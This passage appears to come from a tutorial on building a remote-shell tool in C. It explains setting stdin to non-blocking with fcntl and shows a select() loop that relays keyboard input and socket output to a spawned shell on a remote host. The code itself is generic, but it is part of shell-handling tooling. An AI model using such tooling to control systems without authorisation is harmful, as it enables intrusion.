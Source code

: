 So, there are three arguments that are being pass to fcntl;

- **0**; This is the file descriptor that is gonna be manipulated; stdin.
- **F_SETFL**; This command set a *file status flag*.
- **O_NONBLOCK**; In this case, *op* (F_SETFL), requires a third argument which is a flag that makes input non-blocking, meaning *read()* calls on *0* (stdin) file descriptor will return immediately instead of waiting for user input.

This prevents the following behaviour.

By default, file descriptors operates in **blocking mode**, this means that, when you call *read()* over a file descritor, the program waits until data is received by read and then lets the flow execution to continue. In this case, read would waits until the remote host send some data which can be *disruptive* in terms of network comunication's tempo.

In order to prevent programs blocking or simply large waiting times, we use *fcntl()* to set a flag over the stdin file descriptor in order to not block the program until some data is received.

<br>

##### Monitoring I/O data transfer.

In order to handle I/O data transfer over the socket into the spawned shell we implement the following *while* loop:

```c
while (true) {
    fd_set fds;
    FD_ZERO(&fds);
    FD_SET(sockfd, &fds); // Watch socket
    FD_SET(0, &fds); // Watch keyboard input

    // Use select() to wait for activity on either stdin or the socket
    if (select(sockfd + 1, &fds, NULL, NULL, NULL) < 0) {
        perror("[-] Select error");
        break;
    }

    // Read from the socket and print to the terminal
    if (FD_ISSET(sockfd, &fds)) {
        char buffer[1024];
        int bytes = read(sockfd, buffer, sizeof(buffer) - 1);
        if (bytes <= 0) {
            printf("[-] Connection closed\n");
            break;
        }
        buffer[bytes] = '\0';
        printf("%s", buffer);
        fflush(stdout);
    }

    // Read from stdin and send to the socket
    if (FD_ISSET(0, &fds)) {
        char input[1024];
        int bytes = read(0, input, sizeof(input) - 1);
        if (bytes > 0) {
            input[bytes] = '\0';
            write(sockfd, input, bytes);
        }
    }
}
```

